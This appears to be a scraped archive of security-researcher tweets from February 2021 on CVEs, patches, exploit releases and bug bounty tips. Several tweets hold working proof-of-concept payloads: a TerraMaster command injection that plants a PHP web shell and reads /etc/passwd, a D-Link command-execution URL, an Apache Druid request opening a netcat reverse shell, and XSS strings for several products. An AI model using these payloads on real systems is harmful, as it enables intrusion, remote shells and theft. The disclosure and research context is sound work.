<td>Favorites: <code>887</code></td>
</tr></table>

---

# orange_8361
**https://twitter.com/orange_8361/status/1360591343282659338 _at 2021-02-13 14:07:09_**
<blockquote>
Most of my public presentation slides are on GitHub now!
https://t.co/3D2p8pSSzQ
</blockquote>

* https://github.com/orangetw/My-Presentation-Slides

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>349</code></td>
<td>Favorites: <code>1116</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1360538195532730370 _at 2021-02-13 10:35:58_**
<blockquote>
RCE TerraMaster CVE-2020-28188  
V4.1.30/4.2.06

POC: 
GET /include/makecvs.php?Event=http|echo "&lt;?php echo(passthru(\$_GET['cmd']));?&gt;" &gt;cmd.php|

GET /cmd.php?cmd=cat%20/etc/passwd
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# nav1n0x
**https://twitter.com/nav1n0x/status/1360537189747204096 _at 2021-02-13 10:31:58_**
<blockquote>
Another one from @hahwul's #XSpear. A great tool to find XSS in an organized way. I found the simplest #XSS in one of India's top travel websites. @DevanshBatham's #ParamSpider was the feeder and XSpear was the finder. 

https://t.co/IY0NG0B0th #bugbountytips #BugBounty https://t.co/ek8XbCJDrR
</blockquote>

* https://github.com/hahwul/XSpear

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>176</code></td>
</tr></table>

---

# Raj_Samani
**https://twitter.com/Raj_Samani/status/1360143625234100227 _at 2021-02-12 08:28:05_**
<blockquote>
This is why patching is imperative "majority of flaws (96%) used in #ransomware attacks are years old, having been publicly identified prior to 2019. The oldest, CVE-2007-1036, is a RCE vulnerability first discovered back in 2007" https://t.co/Aia4zYh3TR #malware #cybersecurity
</blockquote>

* https://www.scmagazine.com/home/security-news/ransomware/researchers-identify-223-vulnerabilities-used-in-recent-ransomware-attacks/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>29</code></td>
</tr></table>

---

# itm4n
**https://twitter.com/itm4n/status/1359987926550077440 _at 2021-02-11 22:09:23_**
<blockquote>
I'm releasing a new tool!!! 🔥🔥🔥

A few weeks ago I wrote a blog post about the RpcEptMapper registry key vulnerability on Windows 7 / 2008R2.

Well, here is the full exploit. Enjoy!

👉 https://t.co/un6uZv02aM https://t.co/GLk1COmNqc
</blockquote>

* https://github.com/itm4n/Perfusion

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>380</code></td>
<td>Favorites: <code>836</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1359927700966825986 _at 2021-02-11 18:10:04_**
<blockquote>
In case you missed it, SAP this week released 7 new security updates, including a critical RCE #vulnerability [CVE-2021-21477]  in SAP Commerce.

https://t.co/TpBHVEdhY7
</blockquote>

* https://wiki.scn.sap.com/wiki/pages/viewpage.action?pageId=568460543&utm_source=social_share

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1359887936104374274 _at 2021-02-11 15:32:04_**
<blockquote>
Looking how to exploit the latest SSTI in YouTrack (CVE-2021-25770)? Our ninja @us3r777 wrote an analysis showing how to get remote code execution using a Freemarker bypass presented at #BHUSA 2020 by @pwntester and @olekmirosh 

https://t.co/HZuOEWTO1H https://t.co/gpTJoPjVd0
</blockquote>

* https://www.synacktiv.com/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---

# SentinelOne
**https://twitter.com/SentinelOne/status/1359877485299568641 _at 2021-02-11 14:50:32_**
<blockquote>
💡 New on #SentinelLabs: Windows Defender has contained an elevation of privilege vulnerability since at least 2009. ( CVE-2021-24092) - Great discovery by @kasifdekel!

https://t.co/UiGqTKNzpd

#cybersecurity #windows #infosec #vulnerability #privilegeescalation
</blockquote>

* https://labs.sentinelone.com/cve-2021-24092-12-years-in-hiding-a-privilege-escalation-vulnerability-in-windows-defender/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1359609418669842433 _at 2021-02-10 21:05:20_**
<blockquote>
Microsoft’s #PatchTuesday update included Phase 2 mitigation of CVE-2020-1472, enabling Domain Controller enforcement mode by default. Learn more at https://t.co/DZ2JcMEm8y. #Cyber #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xsaMD

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# frycos
**https://twitter.com/frycos/status/1359602326814797825 _at 2021-02-10 20:37:09_**
<blockquote>
Remember the @rapid7 CVE-2020-0688 blog showing statistics on Exchange 2007 instances not being affected? After looking at code of 2007 builds I found several patched XXE vulnerablities. The one shown in this PoC was patched in 8.3.327.1, still affecting thousands of servers then https://t.co/umYb6lQXTA
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# RubertPereira
**https://twitter.com/RubertPereira/status/1359534726944616458 _at 2021-02-10 16:08:32_**
<blockquote>
Liferay RCE (CVE-2020-7961) POC: https://t.co/X7tQfsseLm Exploit script: Unauthenticated Remote code execution via JSONWS https://t.co/BZiRFQ9BW5 https://t.co/Xbk8zBs6FV cordiales, soluciones en el Area Informatica Sigueme @Informatico_Mcy
</blockquote>

* https://gist.github.com/pikpikcu/0b1cd516088f10577ec5973e595a377
* https://github.com/ShutdownRepo/CVE-2020-7961f
* https://ift.tt/370C8Wd

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# AdGuard
**https://twitter.com/AdGuard/status/1359534467665256449 _at 2021-02-10 16:07:30_**
<blockquote>
A new version of #AdGuardHome is available! We have some new yummy features for you:

🕵️‍♂️ Client ID support for DoH, DoT, and DoQ
🔐 AdGuard as a DNSCrypt-resolver
🆎 New $dnsrewrite and $dnstype modifiers

https://t.co/OwQdgndL7I
</blockquote>

* https://github.com/AdguardTeam/AdGuardHome/releases/tag/v0.105.0

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1359524777216651273 _at 2021-02-10 15:29:00_**
<blockquote>
Liferay RCE (CVE-2020-7961) POC: https://t.co/Mv6mHfj2kH Exploit script: Unauthenticated Remote code execution via JSONWS https://t.co/g5QI8J8Ouw https://t.co/crOwGbBgMq
</blockquote>

* https://gist.github.com/pikpikcu/0b1cd516088f10577ec5973e595a377
* https://github.com/ShutdownRepo/CVE-2020-7961f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>12</code></td>
</tr></table>

---

# alisaesage
**https://twitter.com/alisaesage/status/1359488164566495232 _at 2021-02-10 13:03:31_**
<blockquote>
VMware ESXi OpenSLP heap buffer overflow VM escape RCE vuln (CVE-2019-5544) from my Nov.2020 slides. Did anyone publish a deep technical analysis of the exploit yet? https://t.co/OS3WvFT8dX
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1359450265565335555 _at 2021-02-10 10:32:55_**
<blockquote>
Apple releases a security patch for 10-year-old #macOS SUDO root privilege escalation #vulnerability, tracked as CVE-2021-3156, and also called "Baron Samedit."

Read details — https://t.co/m5I0aB5kee

#infosec #cybersecurity #technology
</blockquote>

* https://thehackernews.com/2021/02/apple-patches-10-year-old-macos-sudo.html

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>156</code></td>
<td>Favorites: <code>279</code></td>
</tr></table>

---

# Rayhan0x01
**https://twitter.com/Rayhan0x01/status/1359447514785607687 _at 2021-02-10 10:21:59_**
<blockquote>
My first ever CVE assigned by a CNA: CVE-2021-21434
Just a simple stored XSS I reported a few months back, but hey feels great to finally have a CVE of my own 🥳 https://t.co/eLMZux1R4U
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# serj_de
**https://twitter.com/serj_de/status/1359414071163035650 _at 2021-02-10 08:09:05_**
<blockquote>
We have already fixed thousands of bugs with our fuzzing engine for the JVM. Now we want to make its core available to the community.

We are happy to announce the open-source launch of #Jazzer.

Let us know which bugs you found:
https://t.co/F7mz70yCzp
</blockquote>

* https://github.com/CodeIntelligenceTesting/jazzer

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>166</code></td>
</tr></table>

---

# r3c0nst
**https://twitter.com/r3c0nst/status/1359398844778299392 _at 2021-02-10 07:08:35_**
<blockquote>
#0day Windows Kernel LPE (CVE-2021-1732) root cause analysis used in Bitter APT attack https://t.co/Fg9innDod0 #Malware #DFIR https://t.co/stMlqzlK8b
</blockquote>

* https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# jq0904
**https://twitter.com/jq0904/status/1359297158554423297 _at 2021-02-10 00:24:31_**
<blockquote>
Our team caught a windows kernel zero-day exploit (CVE-2021-1732) which was used in targeted attack: https://t.co/i12vqJ0OyC
</blockquote>

* https://ti.dbappsecurity.com.cn/blog/index.php/2021/02/10/windows-kernel-zero-day-exploit-is-used-by-bitter-apt-in-targeted-attack/

<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>534</code></td>
<td>Favorites: <code>1324</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1359246831968919553 _at 2021-02-09 21:04:32_**
<blockquote>
Microsoft released a set of fixes affecting Windows TCP/IP implementation that include two Critical RCE vulnerabilities (CVE-2021-24074, CVE-2021-24094) and an Important DoS vulnerability (CVE-2021-24086). Read this blog post for more info and guidance: https://t.co/wdCrtGapH4
</blockquote>

* https://msrc-blog.microsoft.com/2021/02/09/multiple-security-updates-affecting-tcp-ip/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>56</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1359216795140444172 _at 2021-02-09 19:05:11_**
<blockquote>
I worked on a threat analytics report for Microsoft 365 customers on CVE-2021-1732, a zero day local elevation of privilege vulnerability in Win32k (patch out now). https://t.co/BHx92CVoUC
</blockquote>

* https://security.microsoft.com/threatanalytics3/2d183db2-c0e0-45a8-8125-c9e285edf141/overview

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# metr0
**https://twitter.com/metr0/status/1359214923541192704 _at 2021-02-09 18:57:45_**
<blockquote>
As part of our continued effort to proactively identify vulnerabilities in remote surfaces, MS has patched 3 TCP/IP bugs (CVE-2021-24086, -24094, -24074). This set is a bit more serious than previous ones. Thanks to @piazzt and the entire team for their amazing work.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1359213869672116230 _at 2021-02-09 18:53:34_**
<blockquote>
Windows TCP/IP vulnerabilities:

- Internal find at Microsoft
- Not exploited in wild
- Exploit creation for RCE is very difficult
- Pre-patch workaround is deny Source Routing, which is disallowed by default

CVE-2021-24074 CVE-2021-24094 CVE-2021-24086

https://t.co/WJLhzqwRVp
</blockquote>

* https://msrc-blog.microsoft.com/2021/02/09/multiple-security-updates-affecting-tcp-ip/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>125</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1359212311312035848 _at 2021-02-09 18:47:22_**
<blockquote>
CVE-2021-24071 is a patch bypass for CVE-2020-17120 “Microsoft SharePoint SPSqlDataSource Information Disclosure Vulnerability”. It allows an attacker to connect back to a rogue MySQL server and leak the web.config file for RCE if the MySQL driver is installed.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# blowdart
**https://twitter.com/blowdart/status/1359205016016326657 _at 2021-02-09 18:18:23_**
<blockquote>
Patch Tuesday is up. .NET Core gets some updates, so check Microsoft Update, or the VS installer.

Denial of Service : CVE-2021-1721 https://t.co/DAk6jIJ9R6

Remote Code Execution : CVE-2021-24112 https://t.co/7WnIdBiKEB
</blockquote>

* https://github.com/dotnet/announcements/issues/175
* https://github.com/dotnet/announcements/issues/176

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1359203868731613185 _at 2021-02-09 18:13:49_**
<blockquote>
Win32k EoP listed as exploited in-the-wild in today's Patch Tuesday. CVE-2021-1732

Adobe Reader itw 0-day also listed as exploited. CVE-2021-21017

I don't see the Internet Explorer 0-day reported by @vngkv123 in the patch notes which is surprising.
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1359118509310050305 _at 2021-02-09 12:34:38_**
<blockquote>
Found XSS Oracle Business Intelligence(CVE-2020-14815)
Thanks for @HackerOn2Wheels 

POC:
/bi-security-login/login.jsp?msi=false&amp;redirect="&gt;&lt;img/src/onerror%3dalert('xss')&gt;

Ref:
https://t.co/ohcvAHKxFg

#bugbounty #bugbountytips  #xss https://t.co/bzNQ6z7lwt
</blockquote>

* https://twitter.com/HackerOn2Wheels/status/1326927875279380480

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# topjohnwu
**https://twitter.com/topjohnwu/status/1359054106019565571 _at 2021-02-09 08:18:43_**
<blockquote>
Remember when I said using SELinux permissive is really bad? Here is a privilege escalation PoC where the only requirement is SELinux permissive. If you are still releasing custom ROMs/kernels with permissive, YOU ARE LITERALLY BACKDOORING YOUR USERS!
https://t.co/iJ48PeDood
</blockquote>

* https://github.com/vvb2060/Magica

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>23</code></td>
<td>Retweets: <code>174</code></td>
<td>Favorites: <code>587</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1358961456797024263 _at 2021-02-09 02:10:34_**
<blockquote>
D-Link DSL-2888A AU_2.31_V1.1.47ae55 RCE (CVE-2020-24581)

D-link DSL-2888A is a unified service router of China D-link company

PoC
http:/xxx/cgi-bin/execute_cmd.cgi?timestamp=1589333279490&amp;cmd=uname -a

https://t.co/o1vMXImUg4 https://t.co/1t3of3LUbs
</blockquote>

* https://reconshell.com/cve-2020-24581-d-link-dsl-2888a-remote-command-execution/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# numanturle
**https://twitter.com/numanturle/status/1358751105434402817 _at 2021-02-08 12:14:42_**
<blockquote>
YetiShare File Hosting Script 5.1.0 - 'url' Server-Side Request Forgery
https://t.co/iLt3UYHWuj
</blockquote>

* https://www.exploit-db.com/exploits/49534

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# BlogLoki
**https://twitter.com/BlogLoki/status/1358711708831813632 _at 2021-02-08 09:38:09_**
<blockquote>
【PoC】CVE-2020-0674

Microsoft Internet Explorer 11 32-bit - Use-After-Free - Windows local Exploit https://t.co/KPpgh8rYOk
</blockquote>

* https://www.exploit-db.com/exploits/49541

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1358451170377801731 _at 2021-02-07 16:22:52_**
<blockquote>
XSS In LinkedIn oncall (CVE-2021-26722)

Poc:
/query/&lt;img src=x onerror=alert('xss')&gt;
Pic:
https://t.co/5O6agyk154 https://t.co/UaQ2TWktGI
</blockquote>

* https://github.com/linkedin/oncall/issues/341

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>140</code></td>
</tr></table>

---

# EdOverflow
**https://twitter.com/EdOverflow/status/1358441647059664898 _at 2021-02-07 15:45:01_**
<blockquote>
Bug bounty tip: is:issue label:Vulnerable and is:issue label:"Edge case" are your friends on https://t.co/MzqhpK3mJT. :) https://t.co/QUqnMAhkHW
</blockquote>

* https://github.com/EdOverflow/can-i-take-over-xyz/issues

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>202</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1358440787843772417 _at 2021-02-07 15:41:37_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;

#XSS https://t.co/YWRVQjP6Dg
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---

# mubix
**https://twitter.com/mubix/status/1358125270503407619 _at 2021-02-06 18:47:51_**
<blockquote>
Awesome analysis of SolarWinds Orion Platform Unauthenticated RCE (CVE-2021-25274) - https://t.co/2sSztmfpJZ regarding the @SpiderLabs blog post: https://t.co/umlV1glaZO
</blockquote>

* https://attackerkb.com/topics/GuXRxDl2UG/solarwinds-orion-platform-unauthenticated-rce-cve-2021-25274#rapid7-analysis
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/full-system-control-with-new-solarwinds-orion-based-and-serv-u-ftp-vulnerabilities/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1357838295334604804 _at 2021-02-05 23:47:31_**
<blockquote>
CVE-2021-21299 - Hyper HTTP library (rust) https://t.co/0KvwEgLTm7
</blockquote>

* https://github.com/hyperium/hyper/security/advisories/GHSA-6hfq-h8hq-87mf

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1357753038451183620 _at 2021-02-05 18:08:44_**
<blockquote>
learned a ton about userland heap exploitation in Windows + DNS protocol writing an RCE exploit for #SigRed CVE-2020-1350. detailed technical writeup + PoC coming soon (sans rickroll 😇) https://t.co/BetRkRiUfj
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>21</code></td>
<td>Retweets: <code>235</code></td>
<td>Favorites: <code>968</code></td>
</tr></table>

---

# ofjaaah
**https://twitter.com/ofjaaah/status/1357704709021302787 _at 2021-02-05 14:56:42_**
<blockquote>
💉 findomain -t https://t.co/SCNfLzBcWO -q | httpx -silent | anew | waybackurls | gf sqli &gt;&gt; sqli ; sqlmap -m sqli --batch --random-agent --level 1

https://t.co/WXQZxQgSK2

https://t.co/SP7SjT7cpE 🦈

#bugbounty #bugbountytips #SqlInjection #KingOfBugbounty https://t.co/P4eXfo1cpA
</blockquote>

* http://testphp.vulnweb.com
* https://github.com/KingOfBugbounty/KingOfBugBountyTips
* https://m.do.co/c/703ff752fd6f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>206</code></td>
</tr></table>

---

# _ForrestOrr
**https://twitter.com/_ForrestOrr/status/1357694266894675970 _at 2021-02-05 14:15:12_**
<blockquote>
I'm proud to say I completed my first relatively modern UAF exploit today. A 32-bit re-creation of CVE-2020-0674 for IE 8-11 32-bit. It bypasses DEP, ASLR and EMET 5.5 mitigations. A future blog post will explore it in depth https://t.co/8XUnk91vZa
</blockquote>

* https://github.com/forrest-orr/ExploitDev/blob/master/Exploits/Re-creations/Forrest_Orr_CVE-2020-0674_32bit.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>232</code></td>
</tr></table>

---

# _Bugbountytips_
**https://twitter.com/_Bugbountytips_/status/1357652337712627713 _at 2021-02-05 11:28:35_**
<blockquote>
Liferay RCE (CVE-2020-7961)

POC: https://t.co/5kYIBX8rTR
credit : @sec715

#bugbountytips #BugBountyTip https://t.co/F1qYs6FkL4

The post Liferay RCE (CVE-2020-7961)

POC:
credit : @sec715

#bugbountytips #BugBountyT…

appeared first on Bug Bounty Tips.

February 05, 2021… https://t.co/dVjAhk0U8L
</blockquote>

* https://gist.github.com/pikpikcu/0b1cd516088f10577ec5973e595a377f

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# vict0ni
**https://twitter.com/vict0ni/status/1357621927112769538 _at 2021-02-05 09:27:45_**
<blockquote>
Got CVE-2021-26710 and CVE-2021-26711. I'm so excited!

A XSS in Redwood Report2Web v4.3.4.5 and v4.5.3 and frame injection in v4.3.4.5

https://t.co/pLFVCkeBQE
https://t.co/0tKu2xVURJ
</blockquote>

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26711
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26710

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# secnhack
**https://twitter.com/secnhack/status/1357564508110086149 _at 2021-02-05 05:39:35_**
<blockquote>
Liferay RCE (CVE-2020-7961)

POC: https://t.co/VWzNHjUU3w
credit : @sec715 

#bugbountytips #BugBountyTip https://t.co/smyx1hWjQe
</blockquote>

* https://gist.github.com/pikpikcu/0b1cd516088f10577ec5973e595a377f

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1357546718821142528 _at 2021-02-05 04:28:54_**
<blockquote>
YouPHPTube Encoder(CVE-2019-5127)

POC:
[1] GET /objects/getImage.php?base64Url=YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=&amp;format=png

[2] GET /objects/tess.txt

Base64 Encode:
YGVjaG8gVEVTVCBSQ0UgPiB0ZXNzLnR4dGA=

`echo TEST RCE &gt; tess.txt` https://t.co/405TCHrIVe
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>206</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1357509755544080386 _at 2021-02-05 02:02:01_**
<blockquote>
Apache Druid JavaScript RCE (CVE-2021-25646)

[PoC]
POST /druid/indexer/v1/sampler HTTP/1.1
...
...
 {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('nc 192.168.1.10 5555 -e /bin/sh')}"

https://t.co/WEwHLan7TD https://t.co/zublpQiYfR
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>278</code></td>
</tr></table>

---

# a13xp0p0v
**https://twitter.com/a13xp0p0v/status/1357460788076826627 _at 2021-02-04 22:47:26_**
<blockquote>
In January I found, exploited, fixed and responsibly disclosed Linux kernel vulnerabilities in virtual sockets.

Public announcement: https://t.co/NjXfS0NQxj

My PoC exploit gains LPE on Fedora Server 33 for x86_64 bypassing SMEP and SMAP. I'll share all the details later.

Demo! https://t.co/M11aGkcl3P
</blockquote>

* https://seclists.org/oss-sec/2021/q1/107

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>151</code></td>
<td>Favorites: <code>507</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1357455434618085377 _at 2021-02-04 22:26:10_**
<blockquote>
POC Apache Flink RCE upload file.jar 🧐🧐 

gist:
https://t.co/QgJAVFqML8 https://t.co/SUjJklh2Kf
</blockquote>

* https://gist.github.com/pikpikcu/ef8456d6bfeb37b4ddd243e2b8d15fa6

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>161</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1357375659954196480 _at 2021-02-04 17:09:10_**
<blockquote>
Chrome:
CVE-2020-15999 - Freetype buffer overflow
CVE-2020-16009 - Type confusion
CVE-2020-16010 - Android buffer overflow
Windows:
CVE-2020-17087 - cng.sys buffer overflow
Safari:
CVE-2020-27930 - RCE
iOS:
CVE-2020-27950 - kernel info leak
CVE-2020-27932 - kernel type confusion
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1357345890487291904 _at 2021-02-04 15:10:53_**
<blockquote>
RCE TerraMaster TOS (2020-15568)

POC:
https://t.co/CBSTXnsixt https://t.co/IRYCpFPQ97
</blockquote>

* https://gist.github.com/pikpikcu/a7fcbc77ed2a7f45462d10420b1e68a9

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1357316793753362433 _at 2021-02-04 13:15:16_**
<blockquote>
4 XSS in FortiWeb (CVE-2021-22122), found by Andrey Medov, have been patched.

Two example PoCs:

1⃣ /error3?msg=30&amp;data=';alert('xss');//
2⃣ /omni_success?cmdb_edit_path=");alert('xss');//

Advisory: https://t.co/AP3YiNffWY https://t.co/jCOILHKWc4
</blockquote>

* https://www.fortiguard.com/psirt/FG-IR-20-122

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>122</code></td>
<td>Favorites: <code>309</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1357290102620180480 _at 2021-02-04 11:29:12_**
<blockquote>
Liferay RCE (CVE-2020-7961)

POC:
https://t.co/QzXQXEl6pp https://t.co/6O7b8h22DV
</blockquote>

